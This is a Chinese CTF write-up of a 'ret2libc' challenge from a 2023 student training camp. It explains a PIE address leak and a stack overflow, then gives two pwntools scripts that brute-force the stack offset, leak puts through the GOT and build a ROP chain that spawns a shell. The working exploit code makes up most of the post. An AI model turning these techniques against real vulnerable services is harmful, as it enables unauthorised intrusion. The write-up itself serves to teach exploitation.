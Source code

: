 ```yaml
---
title: 赛博协会训练营 - ret2libc
date: 2023/9/18 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过分析`ret2libc`题目，利用栈溢出和泄露main地址实现ret2libc攻击，最终成功获取flag。
---
```


from cbctf starter 2023

## 文件分析

下载`ret2libc`, NX on, PIE on, RELRO full  
ghidra分析为64位程序

## 解题思路

main函数中先是scan了一个int，可以利用它来*泄露main的地址*以找到PIE偏移  
然后一个read提供*栈溢出*的空间  
和ciscn那题一样，就能完成ret2libc

## EXPLOIT

通过爆破获取main的偏移，如果打印出来的地址以0000结尾，则爆破成功

```python
# inserted in the code block below
for offset in range(8, 128, 8):
    sh = remote(???, 10022)
    sh.sendline(str(offset).encode())
    data = sh.recvline()
    data = sh.recvuntil(b'sh')
    pieBase = u64(data[-8:-2] + b'\0\0') - main
    print(hex(pieBase))
    sh.close()
```

```python
from pwn import *
sh = remote('???', 10022)
elf = ELF('ret2libc')

sh.sendline(b'56') # Locating address of main on stack
sh.recvline() # skip
data = sh.recvuntil(b'sh')

main = elf.symbols['main']
pieBase = u64(data[-8:-2] + b'\0\0') - main
putsPlt = pieBase + elf.plt['puts']
putsGot = pieBase + elf.got['puts']
popRdiAddr = pieBase + 0x923
mainAddr = pieBase + main

print(hex(pieBase))

# payload 1
sh.sendline(b'0'*0x18 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'shoot!\n') # skip
data = sh.recvline()

# 题中已给出libc
libcBase = u64(data[:6] + b'\0\0') - 0x80970
systemAddr = libcBase + 0x4f420
shstrAddr = libcBase + 0x1b3d88
retAddr = pieBase + 0x8bb

sh.sendline(b'0') # 埋伏我一手
# payload 2
sh.sendline(b'0'*0x18 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```
{% notel green 本题获得的教训 %}
由于远端libc的不同，main在stack上的地址也是不一样的
{% endnotel %}

Done.
